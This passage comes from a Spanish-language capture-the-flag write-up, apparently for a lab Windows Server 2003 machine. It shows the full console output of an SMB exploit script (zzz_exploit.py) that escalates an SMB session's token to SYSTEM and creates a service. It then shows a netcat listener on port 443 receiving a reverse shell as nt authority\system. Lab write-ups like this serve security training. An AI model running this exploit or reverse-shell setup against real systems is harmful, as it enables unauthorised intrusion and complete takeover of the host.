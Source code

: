 Con esto, lo único que nos falta es ponernos en escucha por el puerto 443 y ejectuar el exploit:

```bash
❯ python zzz_exploit.py 127.0.0.1 samr
Target OS: Windows Server 2003 R2 3790 Service Pack 2
Groom packets
attempt controlling next transaction on x64
attempt controlling next transaction on x86
success controlling one transaction
Target is x86
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x85115d48
SESSION: 0xe39c0010
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe3c54878
userAndGroupCount: 0x5
userAndGroupsAddr: 0xe3c54918
overwriting token UserAndGroups
Opening SVCManager on 127.0.0.1.....
Creating service SRsC.....
Starting service SRsC.....
The NETBIOS connection with the remote host timed out.
Removing service SRsC.....
ServiceExec Error on: 127.0.0.1
Unexpected answer from server: Got 46, Expected 47
Done
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.15] 1050
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```

Ya con esto nos encontramos dentro de la máquina como el usuario `nt authority\system` y podemos visualizar las flags (user.txt y root.txt).
